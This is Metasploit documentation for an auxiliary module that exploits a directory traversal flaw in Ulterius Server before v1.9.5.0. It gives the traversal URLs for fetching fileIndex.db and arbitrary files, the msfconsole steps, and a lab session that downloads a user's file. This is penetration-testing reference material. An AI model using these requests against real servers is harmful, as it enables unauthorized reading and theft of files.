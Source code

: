 ## Description

This module exploits a directory traversal vulnerability in [Ulterius Server < v1.9.5.0](https://github.com/Ulterius/server/releases). The directory traversal flaw occurs in Ulterius Server's `HttpServer.Process` function call. While processing file requests, the `HttpServer.Process` function does not validate that the requested file is within the web server's root directory or a subdirectory.

## Vulnerable Application

When requesting a file, a relative or absolute file path is needed so the appropriate request can be generated. Fortunately, Ulterius Server creates a file called `fileIndex.db`, which contains filenames and directories located on the server. By requesting `fileIndex.db` and parsing the retrieved data, absolute file paths can be retrieved for files hosted on the server. Using the information retrieved from parsing `fileIndex.db`, additional requests can be generated to download desired files.

As noted in the [EDB PoC](https://www.exploit-db.com/exploits/43141/), the `fileIndex.db` is usually located at:

`http://ulteriusURL:22006/.../fileIndex.db`

Note: 22006 was the default port after setting up the Ulterius Server.

After retrieving absolute paths for files, the files can be retrieved by sending requests of the form:

`http://ulteriusURL:22006/<DriveLetter>:/<path>/<to>/<file>`

Note: The [EDB PoC](https://www.exploit-db.com/exploits/43141/) used relative paths to download files but absolute paths can be used on Windows-platforms as well, because the `HttpServer.Process` function made use of the [Path.Combine](https://msdn.microsoft.com/en-us/library/fyy7a5kt(v=vs.110).aspx) function.

> If *path2* includes a root, *path2* is returned. 

## Options

**PATH**

This option specifies the absolute or relative path of the file to download. (default: `/…/fileIndex.db`)

Note: If you are using relative paths, use three periods when traversing down a level in the directory structure. If absolute paths are used, make sure to include the drive letter.

## Verification Steps

- [ ] Install Ulterius Server < v1.9.5.0
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/ulterius_file_download`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify loot contains file system paths from remote file system.
- [ ] `set path '<DriveLetter>:/<path>/<to>/<file>'`
- [ ] `run`
- [ ] Verify contents of file

## Scenarios

### Ulterius Server v1.8.0.0 on Windows 7 SP1 x64.

```
msf > use auxiliary/admin/http/ulterius_file_download
msf auxiliary(admin/http/ulterius_file_download) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf auxiliary(admin/http/ulterius_file_download) > run

[*] Starting to parse fileIndex.db...
[*] Remote file paths saved in: filepath0
[*] Auxiliary module execution completed
msf auxiliary(admin/http/ulterius_file_download) > set path 'C:/users/pwnduser/desktop/tmp.txt'
path => C:/users/pwnduser/desktop/tmp.txt
msf auxiliary(admin/http/ulterius_file_download) > run

[*] C:/users/pwnduser/desktop/tmp.txt
[*] File contents saved: filepath1
[*] Auxiliary module execution completed
msf auxiliary(admin/http/ulterius_file_download) >
```
